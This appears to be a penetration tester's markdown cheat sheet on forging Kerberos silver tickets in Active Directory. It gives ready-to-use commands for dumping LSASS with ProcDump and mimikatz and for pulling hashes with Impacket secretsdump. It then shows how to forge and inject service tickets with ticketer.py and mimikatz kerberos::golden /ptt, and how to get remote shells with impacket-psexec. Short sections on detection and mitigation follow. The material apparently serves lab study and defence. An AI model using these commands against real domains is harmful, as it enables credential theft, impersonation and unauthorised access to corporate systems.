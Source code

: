 ## Short summary (one line)

A **silver ticket** is a forged Kerberos **service (TGS)** ticket for a specific SPN, signed with a **service account key** (NT hash or AES key). If you have that hash/key, you can mint a ticket that the service will accept without contacting the DC.

---

## What you need (prereqs)

- **Service account key material** (NTLM hash for RC4, or AES key for AES).
    
    - Typical lab sources: LSASS dump (mimikatz / procdump), NTDS export, Kerberoast-cracked password reused for service account.
        
- **Target SPN** (format `service/host` like `cifs/host.domain.local` or `http/web.domain.local`).
    
- **Domain FQDN** and **domain SID** (tools often require the domain SID).
    
- A session/context to present the forged ticket (local Windows shell where you can inject/use a ticket, or export a ccache and use Impacket tools with `-k`).
    

---

## Decision: which tool to use

- **Impacket `ticketer.py`** — from Kali/Linux: create silver ticket & ccache for Impacket tools.
    
- **Mimikatz (kerberos::golden / /ptt)** — on Windows: craft and inject silver ticket into session immediately.
    
- Use **ticketer** if on Linux/Kali and prefer Impacket flows; use **mimikatz** if you’re on a Windows host.
    

---

## Common parameter notes

- `-spn` or `/service`: the SPN you target (e.g., `cifs/target.domain.local`, `http/web.domain.local`, `mssqlsvc/db.domain.local:1433`).
    
- `-nthash` / `/rc4`: NTLM hash (32 hex chars) for RC4 encryption.
    
- `-aesKey` or `/aes256`/`/aes128`: hex AES key if the service uses AES keys.
    
- `domain-sid`: domain SID like `S-1-5-21-XXXXXXXXXX-XXXXXXXXX-XXXXXXXXX` (get from `whoami /user` and strip RID).
    

---

## LAB COMMANDS — concise (replace placeholders)

### 0) Get domain SID (Windows shell)

```
whoami /user
# Output S-1-5-21-XXXX-XXXX-XXXX-<RID>; strip the final -<RID> to get domain SID.
```

### 1) Obtain service account NT hash (lab only)

- **Option A: dump LSASS with ProcDump + Mimikatz (Windows)**
    

```
procdump.exe -accepteula -ma lsass.exe lsass.dmp
# transfer lsass.dmp to Kali or run mimikatz minidump locally:
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonpasswords"
```

- **Option B: Impacket secretsdump (with creds)**
    

```
impacket-secretsdump DOMAIN/Administrator:Pass@dc.domain.local -just-dc-ntlm
```

---

### 2) Create a silver ticket with Impacket ticketer.py (Linux/Kali)

```
python3 /usr/share/doc/impacket/examples/ticketer.py \
  -nthash <NTLM_HEX_HASH> \
  -domain-sid S-1-5-21-XXXXXXXXXX-XXXXXXXXXX-XXXXXXXXXX \
  -domain domain.local \
  -spn cifs/target.domain.local \
  victim_user

# Output: victim_user.ccache (or stdout)
export KRB5CCNAME=/path/to/victim_user.ccache
impacket-psexec domain/victim_user@target.domain.local -k -no-pass
```

Notes: use `-aesKey` if the service uses AES keys instead of RC4.

---

### 3) Forge & inject with Mimikatz (on Windows)

```
mimikatz.exe
# within mimikatz prompt:
privilege::debug
# Forge a silver ticket (CIFS example):
kerberos::golden /domain:domain.local /sid:S-1-5-21-XXXX /user:SomeUser \
  /rc4:<NTLM_HASH_OF_SERVICE_ACCOUNT> /service:cifs /target:target.domain.local /ptt
```

Notes:

- `/user` = the username to impersonate in the ticket.
    
- `/rc4` uses the service account NTLM hash. Use `/aes256` or `/aes128` for AES keys.
    
- `/ptt` = pass-the-ticket: inject ticket into current session.
    

---

### 4) Use forged ticket with Impacket tools (example)

```
export KRB5CCNAME=/path/to/victim_user.ccache
impacket-psexec DOMAIN/victim_user@target.domain.local -k -no-pass
# or access SMB directly with Kerberos:
smbclient -k //target.domain.local/C$
```

---

## Lab scenario (what to practice)

1. Build: DC + member host with service account and SPN (`cifs/host.lab.local`) and a known password.
    
2. Obtain service account hash via controlled LSASS dump or set known password.
    
3. Use `ticketer.py` to create silver ticket (ccache) and test with `impacket-psexec -k` or `smbclient -k`.
    
4. Repeat with `mimikatz kerberos::golden ... /ptt` on Windows host.
    
5. Observe DC logs and service logs; document detection indicators.
    

---

## Detection & indicators

- **Service-side access without corresponding DC TGS issuance** (no Event 4769 on DC for that ticket). Correlate service logs vs DC logs.
    
- **Anomalous service account usage** from unusual IPs/times.
    
- **Endpoint telemetry** showing ticket injection into LSASS or suspicious mimikatz activity.
    
- **Ticket/PAC anomalies**: unusual flags, lifetimes, or malformed PACs.
    

---

## Mitigations

- Use **gMSA** for service accounts where possible.
    
- Rotate and harden service account passwords; avoid reuse.
    
- Disable weak crypto (RC4) and require AES where supported; note AES keys still usable if leaked.
    
- Monitor and correlate DC/service logs for TGS/service mismatches.
    
- Reduce exposure of service account credentials and restrict read access to hosts/backups.
    

---

## Pitfalls / gotchas

- Wrong domain SID — ticketer needs the exact domain SID.
    
- Using NT hash when service uses AES — supply AES key instead.
    
- SPN exact format matters (use FQDN hostnames, not IPs).
    
- Some services may PAC-validate or reject forged tickets; fallback to other vectors.
    

---

## Memorize checklist

1. Find SPN & service account.
    
2. Get service account hash/key.
    
3. Get domain SID.
    
4. Forge ticket (ticketer.py or mimikatz) with correct hash/key and SPN.
    
5. Use ticket to access service; verify and document.
    

---

**References & study**: Impacket examples, mimikatz docs, ADSecurity detection writeups. (Use only in lab.)